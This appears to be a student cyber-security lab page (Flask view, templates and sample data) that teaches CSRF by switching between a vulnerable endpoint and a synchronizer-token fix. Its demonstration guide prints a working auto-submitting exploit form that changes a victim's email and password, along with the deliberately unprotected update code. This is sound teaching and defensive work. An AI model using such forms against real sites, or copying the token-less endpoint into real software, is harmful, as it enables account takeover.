
/csrf-post, run on the app's committed database.
### tables this page shows
CREATE TABLE users (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            username TEXT NOT NULL UNIQUE,
            password TEXT NOT NULL,
            email TEXT NOT NULL,
            role TEXT NOT NULL DEFAULT 'user',
            balance REAL DEFAULT 1000.0
        );

### app.py (the view)
@app.route("/csrf-post", methods=["GET"])
def csrf_post():
    username = session.get("logged_in_user", "victim_alice")
    conn = get_db_connection()
    cursor = conn.cursor()
    cursor.execute("SELECT * FROM users WHERE username = ?", (username,))
    user = cursor.fetchone()
    conn.close()
    return render_template("csrf_post.html", user=dict(user) if user else None)

### templates/csrf_post.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="row mb-3">
  <div class="col-12">
    <div class="card" style="border-color: #8957e5;">
      <div class="card-header bg-black text-white d-flex justify-content-between align-items-center flex-wrap">
        <div>
          <span class="badge text-light fs-6 me-2" style="background-color: #8957e5;">Sarvansh's Assignment</span>
          <strong class="text-white fs-5">Category: CSRF &bull; Variant 2: POST-Based Forged Action (Auto-Submitting Form)</strong>
        </div>
        <div>
          {% if current_mode == 'vulnerable' %}
            <span class="badge badge-vulnerable p-2"><i class="bi bi-unlock-fill me-1"></i> Vulnerable Implementation Active (No CSRF Token)</span>
          {% else %}
            <span class="badge badge-secure p-2"><i class="bi bi-shield-lock-fill me-1"></i> Synchronizer Token Pattern Active</span>
          {% endif %}
        </div>
      </div>
    </div>
  </div>
</div>
<div class="row g-4">
  <div class="col-lg-6">
    <div class="card h-100">
      <div class="card-header bg-black text-white d-flex justify-content-between align-items-center">
        <h5 class="mb-0"><i class="bi bi-person-badge text-primary me-2"></i>Victim User Account Settings</h5>
        <small class="text-secondary">Target Endpoint: <code>POST /csrf-post/update</code></small>
      </div>
      <div class="card-body">
        {% if current_mode == 'vulnerable' %}
          <div class="alert alert-danger py-2 small d-flex align-items-center">
            <i class="bi bi-exclamation-triangle-fill fs-5 me-2"></i>
            <div><strong>VULNERABLE STATE:</strong> Missing Anti-CSRF token verification and SameSite cookie protection! Cross-site POSTs succeed.</div>
          </div>
        {% else %}
          <div class="alert alert-success py-2 small d-flex align-items-center">
            <i class="bi bi-shield-fill-check fs-5 me-2"></i>
            <div><strong>SECURE STATE:</strong> Synchronizer Token Pattern active. External cross-origin POST requests are blocked with HTTP 403!</div>
          </div>
        {% endif %}
        <div class="p-3 mb-4 bg-dark rounded border border-secondary">
          <h6 class="text-secondary small text-uppercase mb-2">Authenticated Victim Session:</h6>
          <div class="row">
            <div class="col-sm-4 text-secondary">Logged-in User:</div>
            <div class="col-sm-8"><strong class="text-white">{{ user.username }}</strong></div>
          </div>
          <div class="row mt-1">
            <div class="col-sm-4 text-secondary">Current Email:</div>
            <div class="col-sm-8">
              {% if 'attacker' in user.email or 'hacker' in user.email %}
                <span class="badge bg-danger p-2 fs-6">{{ user.email }} (COMPROMISED VIA CSRF!)</span>
              {% else %}
                <span class="text-info fw-bold">{{ user.email }}</span>
              {% endif %}
            </div>
          </div>
          <div class="row mt-1">
            <div class="col-sm-4 text-secondary">Account Balance:</div>
            <div class="col-sm-8 text-success fw-bold">${{ "%.2f"|format(user.balance) }}</div>
          </div>
        </div>
        <h6 class="text-white"><i class="bi bi-pencil-square me-1 text-primary"></i>Update Profile Details:</h6>
        <form action="{{ url_for('csrf_update_email') }}" method="POST">
          <div class="mb-3">
            <label class="form-label text-light">New Email Address</label>
            <input type="email" name="email" class="form-control bg-dark border-secondary text-light" value="{{ user.email }}" required>
          </div>
          <div class="mb-3">
            <label class="form-label text-light">Change Password</label>
            <input type="password" name="new_password" class="form-control bg-dark border-secondary text-light" placeholder="Leave blank to keep unchanged">
          </div>
          <button type="submit" class="btn btn-primary w-100 fw-bold">
            <i class="bi bi-check2-circle me-1"></i> Save Changes (Legitimate Same-Origin)
          </button>
        </form>
        <div class="mt-4 p-3 rounded border border-warning bg-black">
          <h6 class="text-warning mb-1"><i class="bi bi-radioactive me-1"></i>Simulate CSRF Attack:</h6>
          <p class="small text-secondary mb-2">
            Open the simulated attacker's page in a separate tab or click the button below. The attacker's page will automatically execute a cross-origin POST request with an auto-submitting form!
          </p>
          <a href="{{ url_for('attacker_site') }}" target="_blank" class="btn btn-outline-warning btn-sm w-100 fw-bold">
            <i class="bi bi-box-arrow-up-right me-1"></i> Launch Attacker Site (Auto-Submitting Form)
          </a>
        </div>
      </div>
    </div>
  </div>
  <div class="col-lg-6">
    <div class="card h-100">
      <div class="card-header bg-black text-white">
        <h5 class="mb-0"><i class="bi bi-file-earmark-text text-info me-2"></i>Viva &amp; Demonstration Guide (Table 2)</h5>
      </div>
      <div class="card-body">
        <div class="mb-3">
          <h6 class="text-danger fw-bold"><i class="bi bi-bug me-1"></i>(a) Vulnerable Implementation</h6>
          <p class="small text-secondary mb-1">Located in <code>app.py</code> within function <code>csrf_update_email()</code>:</p>
          <div class="code-box small">
# Endpoint processes state-changing POST relying solely on session cookie
new_email = request.form.get("email")
cursor.execute("UPDATE users SET email = ? WHERE username = ?", (new_email, username))
conn.commit()
          </div>
        </div>
        <div class="mb-3">
          <h6 class="text-warning fw-bold"><i class="bi bi-terminal me-1"></i>(b) Working Exploit Payload (Attacker Page)</h6>
          <p class="small text-secondary mb-1">External hostile webpage (<code>templates/attacker/csrf_exploit.html</code>):</p>
          <div class="code-box text-light small">
&lt;form action="http://localhost:5000/csrf-post/update" method="POST" id="csrfForm"&gt;
  &lt;input type="hidden" name="email" value="attacker_sarvansh@hacker.io"&gt;
  &lt;input type="hidden" name="new_password" value="hackedPassword2026!"&gt;
&lt;/form&gt;
&lt;script&gt;
  // Automatically submits as soon as victim opens the page!
  document.getElementById('csrfForm').submit();
&lt;/script&gt;
          </div>
          <p class="small text-secondary mt-1">
            <strong>How it works:</strong> The browser automatically attaches the victim's session cookie when making the cross-origin POST request. Without a CSRF token, the server cannot tell if the request was initiated intentionally by the user or forged by the attacker's script.
          </p>
        </div>
        <div class="mb-3">
          <h6 class="text-primary fw-bold"><i class="bi bi-info-circle me-1"></i>(c) Root Cause</h6>
          <p class="small text-light mb-0 bg-dark p-2 rounded border border-secondary">
            <strong>State-changing request accepted without proof of user intent:</strong> Web browsers inherently include ambient authentication credentials (cookies) with cross-site requests. Without an anti-CSRF token or SameSite cookie restrictions, the server mistakes a forged cross-site request for a legitimate user action.
          </p>
        </div>
        <div class="mb-3">
          <h6 class="text-success fw-bold"><i class="bi bi-shield-check me-1"></i>(d) Mitigation Implemented</h6>
          <p class="small text-secondary mb-1">
            <strong>Synchronizer Token Pattern:</strong> The server generates a cryptographically random, unpredictable token per session. Form submissions must return this token. The attacker cannot read the token due to the Same-Origin Policy (SOP).
          </p>
          <div class="code-box small text-success">
session_token = session.get("csrf_token")
submitted_token = request.form.get("csrf_token")
if not submitted_token or not secrets.compare_digest(submitted_token, session_token):
    return "CSRF Attack Blocked: Invalid Token", 403
          </div>
        </div>
        <div class="mb-2">
          <h6 class="text-info fw-bold"><i class="bi bi-journal-bookmark me-1"></i>(e) Other Mitigations from Lecture (Theory)</h6>
          <ul class="small text-secondary ps-3 mb-0">
            <li><strong>SameSite Cookie Attribute:</strong> Setting <code>SameSite=Strict</code> or <code>SameSite=Lax</code> instructs browsers not to send session cookies on cross-site requests.</li>
            <li><strong>Re-authentication for sensitive actions:</strong> Requiring the user to enter their current password or 2FA OTP before executing critical state modifications (email, password, or balance changes).</li>
            <li><strong>Avoiding state-changing GET requests:</strong> Ensuring GET methods are strictly idempotent and safe, preventing trivial image/link tag exploitation.</li>
            <li><strong>Custom Request Headers:</strong> Verifying custom headers (e.g. <code>X-Requested-With</code>) in AJAX requests combined with CORS controls.</li>
          </ul>
        </div>
      </div>
    </div>
  </div>
</div>
{% endblock %}

### templates/base.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
  <link href="https://cdn.jsdelivr.net/npm/bootstrap-icons@1.11.1/font/bootstrap-icons.css" rel="stylesheet">
  <link rel="stylesheet" href="{{ url_for('static', filename='css/style.css') }}">
</head>
<body>
  <nav class="navbar navbar-expand-lg navbar-dark border-bottom border-secondary bg-black py-2">
    <div class="container-fluid px-4">
      <a class="navbar-brand text-white d-flex align-items-center" href="{{ url_for('index') }}">
        <i class="bi bi-shield-lock-fill text-danger me-2 fs-4"></i>
        <span>Secure<span class="text-primary">Lab</span></span>
        <span class="badge bg-secondary ms-2 fs-6">CSE Security Project</span>
      </a>
      <div class="collapse navbar-collapse" id="navContent">
        <ul class="navbar-nav me-auto mb-2 mb-lg-0">
          <li class="nav-item">
            <a class="nav-link text-light" href="{{ url_for('index') }}"><i class="bi bi-house-door me-1"></i> Dashboard</a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="{{ url_for('sqli_auth') }}">
              <span class="badge bg-danger me-1">Dhruv</span> SQLi Auth
            </a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="{{ url_for('sqli_union') }}">
              <span class="badge bg-danger me-1">Aniket</span> SQLi UNION
            </a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="{{ url_for('cmdi_inband') }}">
              <span class="badge bg-warning text-dark me-1">Aditya</span> OS Cmd Injection
            </a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="{{ url_for('xss_stored') }}">
              <span class="badge bg-info text-dark me-1">Anubhav</span> Stored XSS
            </a>
          </li>
          <li class="nav-item">
            <a class="nav-link" href="{{ url_for('csrf_post') }}">
              <span class="badge bg-purple text-light me-1" style="background-color: #8957e5;">Sarvansh</span> CSRF POST
            </a>
          </li>
          <li class="nav-item">
            <a class="nav-link text-warning" href="{{ url_for('attacker_site') }}" target="_blank">
              <i class="bi bi-radioactive"></i> Attacker Site
            </a>
          </li>
        </ul>
        <div class="d-flex align-items-center">
          <form action="{{ url_for('toggle_mode') }}" method="POST" class="d-flex align-items-center me-3">
            <span class="me-2 small text-secondary">System Mode:</span>
            {% if current_mode == 'vulnerable' %}
              <button type="submit" class="btn btn-sm btn-outline-danger d-flex align-items-center fw-bold">
                <i class="bi bi-exclamation-triangle-fill me-1"></i> VULNERABLE (Click to Secure)
              </button>
            {% else %}
              <input type="hidden" name="mode" value="vulnerable">
              <button type="submit" class="btn btn-sm btn-outline-success d-flex align-items-center fw-bold">
                <i class="bi bi-shield-check me-1"></i> SECURE / MITIGATED (Click to Vulnerable)
              </button>
            {% endif %}
          </form>
          <form action="{{ url_for('reset_db') }}" method="POST">
            <button type="submit" class="btn btn-sm btn-outline-secondary" title="Reset all database tables to initial clean state">
              <i class="bi bi-arrow-counterclockwise"></i> Reset DB
            </button>
          </form>
        </div>
      </div>
    </div>
  </nav>
  <div class="py-2 px-4 {% if current_mode == 'vulnerable' %}mode-banner-vulnerable{% else %}mode-banner-secure{% endif %} border-bottom border-dark">
    <div class="container-fluid d-flex justify-content-between align-items-center">
      <div>
        {% if current_mode == 'vulnerable' %}
          <i class="bi bi-unlock-fill text-danger me-2"></i>
          <strong class="text-danger">CURRENT STATE: VULNERABLE MODE</strong>
          <span class="text-secondary ms-2 small">Raw code paths active. Exploits will succeed directly.</span>
        {% else %}
          <i class="bi bi-lock-fill text-success me-2"></i>
          <strong class="text-success">CURRENT STATE: SECURE / MITIGATED MODE</strong>
          <span class="text-secondary ms-2 small">Defenses active (Prepared statements, validation, CSP, anti-CSRF token). Attacks will be blocked!</span>
        {% endif %}
      </div>
      <div>
        <span class="badge bg-dark border border-secondary text-secondary">Session: {{ logged_in_user }}</span>
      </div>
    </div>
  </div>
  <main class="container-fluid px-4 py-3 flex-grow-1">
    {% block content %}{% endblock %}
  </main>
  <footer class="py-3 px-4 text-center text-secondary small">
    <div class="container-fluid">
      <span>SecureLab Project &bull; Group Members: <strong>Dhruv, Aniket, Aditya, Anubhav, Sarvansh</strong> &bull; Cyber Security Lab</span>
    </div>
  </footer>
</body>
</html>

### data on the page
users: username "victim_alice", email "alice@company.org", balance "1500.00"
